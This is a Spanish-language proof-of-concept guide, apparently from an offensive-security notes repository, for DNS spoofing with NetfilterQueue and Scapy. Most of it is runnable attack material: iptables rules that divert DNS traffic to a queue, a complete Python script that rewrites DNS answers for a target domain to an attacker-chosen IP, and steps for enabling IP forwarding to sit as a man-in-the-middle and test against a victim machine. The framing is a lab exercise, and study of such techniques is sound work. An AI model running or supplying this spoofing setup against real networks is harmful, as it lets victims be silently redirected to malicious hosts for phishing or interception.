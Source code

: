 
---

# PoC — netfilterqueue (DNS spoofing, integración con Scapy)

---

## Resumen

Documento PoC que muestra cómo usar `netfilterqueue` junto con **Scapy** para inspeccionar y modificar tráfico DNS (DNS spoofing) en un laboratorio controlado. Este fichero está pensado para relacionarse directamente con la documentación ubicada en `Lenguajes/Python/Utilidades Ofensivas/` (por ejemplo, el documento de "Evolución del Script de DNS Spoofing").

[Ver tutorial sobre DNS_spoofing.py](../../../Utilidades%20Ofensivas/DNS%20Spoofing/dns_spoofing_tutorial.md)

---

## Requisitos

- Linux (Debian/Ubuntu recomendado) con `iptables` o `nftables` gestionando Netfilter.
    
- Python 3.8+ y paquetes: `scapy`, `netfilterqueue` (nota: el paquete del sistema suele llamarse `python3-netfilterqueue` o `NetfilterQueue` en pip). Instalar con:
    

```bash
python3 -m venv venv
source venv/bin/activate
pip install scapy
pip install NetfilterQueue
# Alternativa en Debian/Ubuntu:
# sudo apt install python3-netfilterqueue
```

- Permisos de root para manipular reglas iptables y raw sockets.
    
---

## Reglas iptables de ejemplo (entorno de laboratorio)

Redirige paquetes UDP/53 a la cola 0 para que `netfilterqueue` los reciba.

```bash
# Guardar reglas actuales (importante)
sudo iptables-save > /tmp/iptables.before

# Enrutamiento de DNS UDP a NFQUEUE 0
sudo iptables -I FORWARD -p udp --dport 53 -j NFQUEUE --queue-num 0
# Si la prueba la haces en la misma máquina (MITM con forwarding), usa:
# sudo iptables -I OUTPUT -p udp --dport 53 -j NFQUEUE --queue-num 0
# sudo iptables -I INPUT  -p udp --dport 53 -j NFQUEUE --queue-num 0
```

Al terminar las pruebas, restaura reglas:

```bash
sudo iptables-restore < /tmp/iptables.before
```

---

## Script PoC (netfilterqueue + Scapy) — `dns_spoof_nfqueue.py`


```python
#!/usr/bin/env python3
"""dns_spoof_nfqueue.py
PoC mínimo de DNS spoofing usando NetfilterQueue + Scapy.
Uso: sudo python3 dns_spoof_nfqueue.py --target-ip 192.168.1.110 --domain example.com
"""
import argparse
import signal
import sys

from netfilterqueue import NetfilterQueue
import scapy.all as scapy

# Ctrl+C handler
def def_handler(sig, frame):
    print('\n[!] Saliendo y restaurando estado...')
    sys.exit(0)

signal.signal(signal.SIGINT, def_handler)

# Función que procesa paquetes
def process_packet(packet, target_domain, fake_ip):
    scapy_packet = scapy.IP(packet.get_payload())

    # Solo trabajamos con paquetes DNS (consulta o respuesta)
    if scapy_packet.haslayer(scapy.DNSQR):
        qname = scapy_packet[scapy.DNSQR].qname
        # Filtrar por dominio objetivo (bytes)
        if target_domain.encode() in qname:
            print(f"[+] Detected DNS query for {qname.decode()}")

            # Si es una consulta, construir respuesta falsa
            if scapy_packet.haslayer(scapy.UDP):
                # Crear respuesta DNS
                answer = scapy.DNSRR(rrname=qname, rdata=fake_ip)
                scapy_packet[scapy.DNS].an = answer
                scapy_packet[scapy.DNS].ancount = 1

                # Borrar campos para que Scapy los regenere
                try:
                    del scapy_packet[scapy.IP].len
                    del scapy_packet[scapy.IP].chksum
                    del scapy_packet[scapy.UDP].len
                    del scapy_packet[scapy.UDP].chksum
                except Exception:
                    pass

                # Inyectar el paquete modificado
                packet.set_payload(bytes(scapy_packet))
                print(f"[+] Spoofed {qname.decode()} -> {fake_ip}")

    packet.accept()


def main():
    parser = argparse.ArgumentParser(description='PoC DNS spoofing via NFQUEUE + Scapy')
    parser.add_argument('--target-ip', required=True, help='IP donde redirigir el dominio objetivo (fake IP)')
    parser.add_argument('--domain', required=True, help='Dominio objetivo a envenenar (ej. example.com)')
    parser.add_argument('--queue-num', default=0, type=int, help='Número de NFQUEUE (default: 0)')
    args = parser.parse_args()

    nfqueue = NetfilterQueue()
    print(f"[i] Bind to NFQUEUE {args.queue_num} — spoofing {args.domain} -> {args.target_ip}")

    # Bind con una función parcial que cierre sobre los argumentos
    nfqueue.bind(args.queue_num, lambda pkt: process_packet(pkt, args.domain, args.target_ip))

    try:
        nfqueue.run()
    except KeyboardInterrupt:
        print('\n[!] Detenido por usuario')
    finally:
        nfqueue.unbind()


if __name__ == '__main__':
    main()
```

---

## Diagnóstico y pruebas

1. Habilita ip forwarding si usas MITM:
    

```bash
sudo sysctl -w net.ipv4.ip_forward=1
```

2. Inserta las reglas iptables para enviar UDP/53 a NFQUEUE (ver sección más arriba).
    
3. Arranca el PoC: `sudo python3 dns_spoof_nfqueue.py --target-ip <IP_objetivo> --domain <dominio/web>
    
4. Desde una máquina víctima, realiza una consulta DNS al dominio objetivo y observa en el PoC las detecciones y el resultado final.
    
---

## Buenas prácticas y seguridad

- Asegúrate de limpiar las reglas de iptables y desactivar ip_forward tras las pruebas.
    
- Documenta la configuración de red (modo bridge/NAT/host-only) para reproducibilidad.
    
- Añade logs y opciones de verbose/quiet al script si lo vas a usar en ejercicios más largos.

---
